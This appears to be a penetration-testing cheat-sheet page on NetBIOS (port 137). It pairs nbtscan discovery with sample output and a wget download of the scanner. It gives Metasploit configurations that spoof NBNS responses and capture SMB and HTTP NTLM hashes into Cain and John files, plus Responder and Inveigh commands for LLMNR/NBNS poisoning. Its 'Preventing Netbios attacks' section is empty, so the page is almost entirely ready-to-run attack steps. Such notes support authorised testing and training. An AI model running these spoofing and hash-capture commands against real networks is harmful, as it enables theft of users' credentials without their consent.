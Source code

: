 # 137 - Netbios

### Broadcast discovery

```
nbtscan 172.18.2.0/24
	
172.18.2.9:GCDTA0000:00U
172.18.2.9:WORKGROUP:00G
172.18.2.9:GCDTA0000:20U
172.18.2.9:MAC:00-23-7d-aa-72-c2
```

### nbt-wizz version version:

Download:

```
wget http://www.unixwiz.net/tools/nbtscan-1.0.35-redhat-linux
```

```
root@Kali:~/Downloads# ./nbtscan-1.0.35-redhat-linux -A 192.168.0.15 
192.168.0.38    WORKGROUP\DOOKOSSEL             SHARING 
  DOOKOSSEL      <00> UNIQUE Workstation Service 
  DOOKOSSEL      <03> UNIQUE Messenger Service<3> 
  DOOKOSSEL      <20> UNIQUE File Server Service 
  ..__MSBROWSE__.<01> GROUP  Master Browser 
  WORKGROUP      <00> GROUP  Domain Name 
  WORKGROUP      <1d> UNIQUE Master Browser 
  WORKGROUP      <1e> GROUP  Browser Service Elections 
  00:00:00:00:00:00   ETHER
```

### Windows NBTSCAN

{% embed url="http://www.unixwiz.net/tools/nbtscan-1.0.35.exe" %}

### Netbios Spoofing

#### Metasploit

```
use auxiliary/server/capture/smb
set CAINPWFILE /netbios/cain.
set JOHNPWFILE /netbios/john. 

set LOGFILE /netbios/SMB_LOG.txt
set SRVHOST 10.222.101.213
run
	
use auxiliary/server/capture/http_ntlm
set CAINPWFILE /netbios/cain-http
set JOHNPWFILE /netbios/john-http
set SRVHOST 10.222.101.213
set SRVPORT 80
set URIPATH /
run
	
use auxiliary/spoof/nbns/nbns_response
set INTERFACE eth0
set SPOOFIP 10.222.101.213
run
```

### Capture Netbios broadcasts

#### Responder

```
sudo python3.9 /usr/share/responder/Responder.py -I eth0 -w -f -v
```

#### Inveigh - (Powershell Responder)

requires privileged user.

https://n0where.net/windows-powershell-llmnrnbns-spoofer-inveigh\
https://github.com/Kevin-Robertson/Inveigh

```
cd C:\Users\Leon\powermenu\Inveigh\Inveigh-master
Import-Module .\Inveigh.psm1
```

To execute with default settings

```
Invoke-Inveigh
```

To execute with features enabled/disabled

```
Invoke-Inveigh -LLMNR Y -NBNS Y -HTTP Y -HTTPS Y -SMB Y -ConsoleOutput Y -IP <yourIP>
```

You must Stop Inveigh manually

```
Stop-Inveigh
```

### Preventing Netbios attacks
